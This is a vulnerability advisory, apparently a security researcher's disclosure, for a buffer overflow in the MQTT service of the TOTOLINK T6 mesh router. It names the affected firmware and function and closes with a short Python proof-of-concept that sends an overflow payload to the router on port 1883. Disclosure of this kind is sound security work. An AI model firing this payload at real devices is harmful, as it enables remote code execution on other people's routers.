 # Information

**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** [T6](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/190.html)

**Affected firmware version:** V4.1.5cu.748_B20211015

**Firmware download address:** [Download Page](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html)

# Overview

TOTOLINK Mesh Wifi T6 router has a buffer overflow vulnerability in `MQTT` service that lead to RCE.

# Vulnerability details

The `T6` routers open `MQTT` service and listen on port `1883`. In function `recvSlaveCloudCheckStatus`. The `s` buffer is 64 bytes, and the `sprintf` doesn't check for the length of input.

![](8/1.png)

An attacker can implement a RCE attack by sending a malicious `MQTT` packet.

![](8/2.png)

# POC

```python
import paho.mqtt.client as mqtt

payload = b"A" * (0x40 - 9 + 20) + b"\x37\x33\x33\x13"

mqtt_data = b'''
    {
        "status":"1",
        "ip":"%s",
        "version":"123"
    }
''' % payload

client = mqtt.Client()
client.connect("192.168.0.1", 1883, 60)
client.publish("totolink/router/recvSlaveCloudCheckStatus", mqtt_data)
```





